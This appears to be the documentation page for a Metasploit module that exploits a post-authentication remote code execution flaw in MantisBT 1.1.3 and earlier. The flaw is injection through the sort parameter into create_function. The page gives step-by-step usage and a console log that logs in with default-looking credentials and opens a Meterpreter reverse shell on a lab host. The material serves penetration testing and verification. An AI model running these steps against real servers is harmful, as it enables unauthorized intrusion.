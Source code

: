 ## Vulnerable Application

Mantis Bug Tracker versions 1.1.3 and earlier are vulnerable to a post-authentication Remote Code Execution vulnerability. The `manage_proj_page.php` file passes the `$_GET['sort']` parameter to `/core/utility_api.php`'s `multi_sort()` function as parameter `$p_key`, which then passes it (unsanitized) to the `create_function()` as part of the payload `"return $t_factor * strnatcasecmp( \$a['$p_key'], \$b['$p_key'] );"`. A properly formatted `sort` param can escape and inject arbitrary PHP, which is then used to cradle and execute a PHP meterpreter payload. This has been tested from v1.0.0 to v1.1.3.

## Verification Steps

  1. Download and install [mantis 1.1.3](https://www.exploit-db.com/apps/9d9079342cea8392a80d47d22b4b6d42-mantisbt-release-1.1.3.tar.gz)
  2. `use exploit/multi/http/mantisbt_manage_proj_page_rce`
  3. `set RHOST IP`
  4. `set TARGETURI /`
  5. `set USERNAME administrator`
  6. `set PASSWORD root`
  7. `set PAYLOAD php/meterpreter/reverse_tcp`
  8. `set LHOST IP`
  9. `exploit`
  10. **Verify** a new Meterpreter session is started

## Scenarios

### MantisBT v1.1.3 on Debian

```
msf > use exploit/multi/http/mantisbt_manage_proj_page_rce
msf exploit(multi/http/mantisbt_manage_proj_page_rce) > set RHOST localhost
RHOST => localhost
msf exploit(multi/http/mantisbt_manage_proj_page_rce) > set RPORT 8000
RPORT => 8000
msf exploit(multi/http/mantisbt_manage_proj_page_rce) > set TARGETURI /
TARGETURI => /
msf exploit(multi/http/mantisbt_manage_proj_page_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/mantisbt_manage_proj_page_rce) > run

[!] You are binding to a loopback address by setting LHOST to ::1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on ::1:4444 
[*] Checking Mantis version ...
[*] Mantis version 1.1.3 detected
[*] Sending payload ...
[*] Logging in as administrator:root
[*] Sending stage (37775 bytes) to ::1
[*] Sleeping before handling stage...
[*] Meterpreter session 1 opened (::1:4444 -> ::1:48182) at 2018-04-14 07:14:00 -0400 
```

